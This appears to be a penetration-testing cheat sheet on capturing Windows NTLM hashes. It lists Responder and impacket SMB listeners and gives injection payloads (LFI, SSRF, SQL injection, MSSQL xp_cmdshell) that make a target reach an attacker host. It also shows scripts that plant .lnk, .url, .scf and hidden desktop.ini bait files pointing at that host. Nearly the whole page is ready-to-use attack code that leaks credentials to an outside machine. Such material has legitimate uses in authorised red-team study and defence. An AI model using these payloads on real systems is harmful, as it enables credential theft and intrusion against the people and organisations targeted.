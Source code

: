 ```yaml
---
icon: ear
---
```


# Capturing NTLM hashes

## Listener

```bash
responder -I <interface>
```

```
impacket-smbserver share /dev/null -smb2support
```

## Possible Attacks

> https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

<pre class="language-powershell"><code class="lang-powershell"># LFI
?page=\\&#x3C;attaker>\test

# SSRF
?url=file://&#x3C;attaker>/test

# SQL Injection
?id=1' union select null,load_file('\\\\&#x3C;attaker>\\test'),null-- -
  
  ## MSSQL
  ?id=1' union select null,(select x from OpenRowset(BULK '\\&#x3C;attaker>\test',SINGLE_CLOB) R(x)),null-- -
<strong>  ?id=1' union select null,(EXEC xp_cmdshell 'dir \\&#x3C;attaker>\test'),null-- -
</strong></code></pre>

### Via .lnk file

```powershell
# With powershell
$targetPath = "\\<attaker>\test" 
$shortcutPath = "C:\path\to\your\~shortcut.lnk" 
$WScriptShell = New-Object -ComObject WScript.Shell 
$shortcut = $WScriptShell.CreateShortcut($shortcutPath) 
$shortcut.TargetPath = $targetPath 
$shortcut.Save()
```

### Via .url file

```sh
echo '[InternetShortcut]' > ~shortcut.url
echo 'URL=file:////<attaker>/test' >> ~shortcut.url
```

### Via .scf file

> Not working on newer Windows versions.

```sh
echo '[Shell]' > ~file.scf
echo 'Command=2' >> ~file.scf
echo 'IconFile=explorer.exe,3' >> ~file.scf
echo '[Taskbar]' >> ~file.scf
echo 'Command=ToggleDesktop' >> ~file.scf
echo '[InternetShortcut]' >> ~file.scf
echo 'URL=file:////<attaker>/test' >> ~file.scf
```

### Via desktop.ini file

> Not working on newer Windows versions.

```powershell
# With powershell
echo '[.ShellClassInfo]' > desktop.ini
echo 'IconResource=\\<attaker>\test' >> desktop.ini
attrib +s +h desktop.ini
```
